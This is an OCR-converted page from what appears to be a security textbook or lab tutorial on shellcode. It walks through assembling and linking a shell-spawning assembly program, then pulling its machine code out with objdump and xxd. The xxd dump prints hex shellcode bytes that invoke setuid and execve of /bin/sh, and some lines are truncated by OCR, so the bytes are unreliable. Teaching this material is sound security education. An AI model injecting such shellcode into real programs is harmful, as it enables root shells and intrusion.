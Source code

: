 ```
$ nasm -f elf32 mysh.s -o mysh.o
```

**Linking to generate final binary**. once we get the object code _mysh.o_, if we want to generate the executable binary, we can run the linker program _ld_, which is the last step in compilation. The _-m elf i386_ option means generating the 32-bit ELF binary. After this step, we get the final executable code mysh. If we run it, we can get a shell. Before and after running mysh, we print out the current shell’s process IDs using _echo $$_, so we can clearly see that mysh indeed starts a new shell 

```
$ ld -m elf_i386 mysh.o -o mysh
$ echo $$
25751       <- the process ID of the current shell
$ mysh
$ echo $$
9760        <- the process ID of the new shell
```

**Getting the machine code**. During the attack, we only need the machine code of the shellcode, not a standalone executable file, which contains data other than the actual machine code. Technically, only the machine code is called shellcode. Therefore, we need to extract the machine code from the executable file or the object file. There are various ways to do that. One way is to use the _objdump_ command to disassemble the executable or object file. 

There are two different common syntax modes for assembly code, one is the AT&T syntax mode, and the other is Intel syntax mode. By default, _objdump_ uses the AT&T mode. In the following, we use the _-Mintel_ option to produce the assembly code in the Intel mode. 

```
$ objdump -Mintel --disassemble mysh.o
mysh.o: file format elf32-i

Disassembly of section .text:

00000000 <_start>:
    0: **31 db** xor ebx,ebx
    2: **31 c0** xor eax,eax
                ... (code omitted) ...
    1f: **b0 0b** mov al,0xb
    21: **cd 80** int 0x
```

In the above printout, the highlighted numbers are machine code. You can also use the xxd command to print out the content of the binary file, and you should be able to find out the shellcode’s machine code from the printout. 

```
$ xxd -p -c 20 mysh.o
7f454c
...
000000000000000000000000 **31db31c0b0d5cd
31c050682f2f7368682f62696e89e3505389e
d231c0b00bcd80** 00000000000000000000000000
...
```
